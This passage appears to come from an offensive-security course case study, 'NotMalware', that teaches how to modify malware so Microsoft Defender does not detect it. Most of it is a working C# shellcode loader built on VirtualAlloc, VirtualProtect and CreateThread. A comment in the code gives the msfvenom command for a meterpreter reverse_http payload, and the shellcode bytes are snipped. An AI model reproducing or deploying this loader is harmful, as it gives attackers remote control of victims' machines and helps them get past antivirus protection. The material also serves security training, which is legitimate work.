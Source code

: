 ## Case Study: NotMalware

#### Baseline

After having a basic understanding of `static analysis`, we will learn how to modify a malicious program such that `Microsoft Defender Antivirus` does not detect it when stored on disk. In this case, we'll use the following `shellcode loader` written in `C#`, which uses common `WinAPI` functions to execute [meterpreter/reverse\_http](https://doubleoctopus.com/security-wiki/threats-and-tools/meterpreter/) shellcode (don't worry about understanding exactly how this program works).

```csharp
using System;
using System.Linq;
using System.Runtime.InteropServices;

namespace NotMalware
{
    internal class Program
    {
        [DllImport("kernel32")]
        private static extern IntPtr VirtualAlloc(IntPtr lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

        [DllImport("kernel32")]
        private static extern bool VirtualProtect(IntPtr lpAddress, uint dwSize, UInt32 flNewProtect, out UInt32 lpflOldProtect);

        [DllImport("kernel32")]
        private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, IntPtr lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

        [DllImport("kernel32")]
        private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        static void Main(string[] args)
        {
            // Shellcode (msfvenom -p windows/x64/meterpreter/reverse_http LHOST=... LPORT=... -f csharp)
            byte[] buf = new byte[] {<SNIP>};

            // Allocate RW space for shellcode
            IntPtr lpStartAddress = VirtualAlloc(IntPtr.Zero, (UInt32)buf.Length, 0x1000, 0x04);

            // Copy shellcode into allocated space
            Marshal.Copy(buf, 0, lpStartAddress, buf.Length);

            // Make shellcode in memory executable
            UInt32 lpflOldProtect;
            VirtualProtect(lpStartAddress, (UInt32)buf.Length, 0x20, out lpflOldProtect);

            // Execute the shellcode in a new thread
            UInt32 lpThreadId = 0;
            IntPtr hThread = CreateThread(0, 0, lpStartAddress, IntPtr.Zero, 0, ref lpThreadId);

            // Wait until the shellcode is done executing
            WaitForSingleObject(hThread, 0xffffffff);
        }
    }
}

```
